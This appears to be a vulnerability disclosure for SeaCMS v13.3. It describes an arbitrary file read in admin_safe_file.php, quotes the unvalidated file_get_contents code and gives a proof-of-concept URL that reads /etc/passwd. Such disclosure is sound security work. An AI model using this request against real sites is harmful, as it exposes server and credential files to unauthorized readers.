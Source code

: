 ## Arbitrary File Read  in admin_safe_file.php

### Introduction

SeaCMS v13.3 is vulnerable to an arbitrary file read vulnerability. This vulnerability is located in the utility file `admin_safe_file.php`, where insufficient parameter validation allows attackers to read arbitrary files.

### Vulnerability Analysis

The vulnerability exists in the `admin_safe_file.php` file, where the `file_get_contents` function is used without proper restrictions on the input parameters, leading to arbitrary file read.

The key code is as follows:
```php
if($action=="download" && isset($_GET['file']) && trim($_GET['file'])!="")  
{  
 $file = $_GET['file'];  
 ob_clean();  
 if (@file_exists($file)) {  
  header("Content-type: application/octet-stream");  
     header("Content-Disposition: filename=\"".basename($file)."\"");  
  echo file_get_contents($file);  
 }  
 exit();  
}
```

### Exploitation

By accessing the following URL with the specified parameters, an attacker can read arbitrary files, such as `/etc/passwd`:

```r
ywmba6/admin_safe.php?action=download&file=/etc/passwd
```

As shown in the image below, the contents of `/etc/passwd` are successfully read:

![](./public/9.png)